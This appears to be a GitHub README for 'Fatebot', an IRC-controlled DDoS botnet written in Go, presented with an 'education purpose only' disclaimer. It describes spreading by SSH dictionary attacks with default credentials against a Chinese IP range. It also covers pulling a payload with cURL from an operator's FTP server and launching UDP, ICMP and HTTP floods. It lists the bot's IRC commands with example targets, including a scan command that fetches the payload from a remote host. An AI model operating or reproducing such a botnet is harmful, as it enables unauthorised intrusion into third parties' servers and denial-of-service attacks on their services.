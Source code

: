 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. In <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

<img src="img/udptraffic.png" alt="udp flood, dos example">

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      <p>Min and Max of Buffer is 1 - 700bytes.</p>
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
